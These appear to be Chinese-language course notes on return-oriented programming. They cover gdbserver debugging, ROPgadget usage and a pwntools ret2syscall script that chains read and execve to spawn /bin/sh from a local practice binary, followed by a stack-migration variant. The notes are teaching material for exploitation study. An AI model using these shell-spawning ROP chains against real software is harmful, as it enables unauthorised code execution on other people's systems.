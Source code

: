 # NTU STCS 2016 0x02 ROP


# gdbserver

```bash
# in bash commandline
gdbserver 127.0.0.1:4000 ./binary #break在entrypoint
# in gdb commandline
gdb ./binary
$ target remote 127.0.0.1:4000
$ continue
# 搭配ncat
ncat -vc 'gdbserver 127.0.0.1:4000 .binary' -kl 127.0.0.1 5000
```

**trick**

使用gdbscript attach pid

```bash
# .gdbinit
set disassembly-flavor intel
define at
  shell echo attach $(pidof -s $arg0) > /tmp/foo.gdb
  source /tmp/foo.gdb
end
```

* * *

# rop

类型包括:ret2syscall ret2text ret2libc

## rop2syscall

- 找gadget控制syscall需要的regs(eax,ebx,ecx,edx)
- 需要int 80

**RopGadget**

```bash
#usage
RopGadget --binary ./binary
#int 80 ; ret
RopGadget --binary ./binary --opcode cd80c3
```

> PS:execve需要'/bin/sh'，且地址必须已知
> 用read吧需要的字符串输入至已知地址的buffer上

找可写page用于read(0,buf_addr,len)中的buf_addr
一般用bss最后一页即可

```bash
cat /proc/`pidof binary`/maps
readelf -a binary | less # 看Section Headers中的.bss
```

eg.

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
p = process('./p1')
elf = ELF('./p1')
g = lambda x: next(elf.search(asm(x)))
pop_eax_ret = g('pop eax ; ret') # 0x080b8126
pop_ebx_ret = g('pop ebx ; ret') # 0x080481c9
pop_ecx_ret = g('pop ecx ; ret') # 0x080de849
pop_edx_ret = g('pop edx ; ret') # 0x0806edca
int_0x80_ret = g('int 0x80 ; ret')
buf = 0x080eb000 - 100
raw_input('@')
offset = 62
# read(0, '/bin/sh\x00', 100)
rop1 = [
 pop_eax_ret,
 3,
 pop_ebx_ret,
 0,
 pop_ecx_ret,
 buf,
 pop_edx_ret,
 100,
 int_0x80_ret,
]
# execve('/bin/sh\x00', 0, 0)
rop2 = [
 pop_eax_ret,
 0xb,
 pop_ebx_ret,
 buf,
 pop_ecx_ret,
 0,
 pop_edx_ret,
 0,
 int_0x80_ret
]
payload = 'A' * offset + ''.join(map(p32, rop1)) + ''.join(map(p32, rop2))
p.sendline(payload)
p.sendline('/bin/sh\x00')
p.interactive()
```

### 使用较长的gadget

![long gadget](w4-long-gadget.png)

**leave指令**

```x86asm
#leave
mov   esp, ebp
pop   ebp
```

**Trick: Stack Migration**

- 使用leave把栈放到已知位置
- 确定rop chain的位置时可以直接附加其他data
- 可以无限rop
- migrate后的空间要足够

```python
gadget1 = 0x8048898
# gadget1 has gets() and leave_ret
# 8048898:       50                      push   eax
# 8048899:       e8 e2 69 00 00          call   804f280 <_IO_gets>
# 804889e:       83 c4 10                add    esp,0x10
# 80488a1:       90                      nop
# 80488a2:       c9                      leave
# 80488a3:       c3                      ret
migration = [
    pop_ebp_ret,
    buf - 4,  #leave会pop ebp，所以要控制到buf-4位置
    pop_eax_ret,
    buf,
    gadget1,
]
rop = [
    pop_eax_ret,
    0xb,
    pop_ebx_ret,
    buf + 9 * 4,  #ropchain一共有9*4bytes
    pop_ecx_ret,
    0,
    pop_edx_ret,
    0,
    int_0x80_ret
]
payload1 = 'A' * offset + ''.join(map(p32, migration))
payload2 = ''.join(map(p32, rop)) + '/bin/sh\x00'
```


